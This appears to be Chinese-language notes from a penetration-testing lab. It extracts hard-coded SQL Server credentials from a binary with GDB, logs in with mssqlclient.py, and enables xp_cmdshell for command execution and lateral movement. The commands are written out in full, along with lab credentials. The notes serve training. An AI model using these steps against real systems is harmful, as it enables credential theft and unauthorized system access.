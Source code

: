 # 攻擊連接到服務的應用程式(SSH)

### **1. 發現點**

1.  **使用 SSH 連接目標伺服器**

    ```bash
    ssh htb-student@10.129.205.20
    ```

    * 帳密為：`htb-student:HTB_@cademy_stdnt!`
2. **分析 `octopus_checker` 二進位檔案**
   * 這是一個可能與資料庫或其他服務連接的應用程式
   * 目標是從該應用程式中提取**連接資訊（Connection Strings）**

***

### **🚀 2. 測試Payload**

1.  **使用 GDB（GNU Debugger）載入 `octopus_checker`**

    ```bash
    gdb ./octopus_checker
    ```
2.  **設定 Intel 反組譯格式，分析 `main()`**

    ```bash
    set disassembly-flavor intel
    disas main
    ```
3. **尋找 SQL 相關函數**
   * 觀察 `SQLAllocHandle`、`SQLSetEnvAttr`、`SQLDriverConnect` 等 SQL 相關 API 呼叫
   * 這些 API 通常會包含**數據庫連接資訊**

***

### **🎯 3. 設定斷點 & 讀取憑證**

1.  **找到 `SQLDriverConnect()` 函數**

    ```bash
    b SQLDriverConnect
    run
    ```
2.  **觀察寄存器內容，提取連接字串**

    ```bash
    RDX: "DRIVER={ODBC Driver 17 for SQL Server};SERVER=localhost,1401;UID=SA;PWD=N0tS3cr3t!;"
    ```

    * **成功獲取資料庫憑證**
      * **使用者名稱（UID）**：`SA`
      * **密碼（PWD）**：`N0tS3cr3t!`
      * **SQL Server 埠號**：`1401`

***

### **🔗 4. 利用已知憑證**

1.  **嘗試連接 SQL Server**

    ```bash
    mssqlclient.py SA@10.129.205.20 -windows-auth
    ```

    * 輸入密碼：`N0tS3cr3t!`
    * 成功登入 SQL Server，取得資料庫存取權限
2.  **列舉 SQL Server 權限**

    ```sql
    SELECT SYSTEM_USER;
    SELECT USER_NAME();
    ```

    * 確認當前權限，如為 `dbo` 或 `sysadmin` 則可進一步提權

***

### **⚡ 5. 連鎖漏洞（橫向移動 & 提權）**

1.  **嘗試 XP\_CMDshell 開啟 Shell**

    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    EXEC xp_cmdshell 'whoami';
    ```

    * 如果返回 `nt authority\system`，代表已取得系統權限
2.  **嘗試存取 Active Directory**

    * 檢查 SQL Server 是否與 AD 整合

    ```sql
    SELECT name FROM master.sys.server_principals;
    ```

    * 嘗試橫向移動至其他系統

***

####
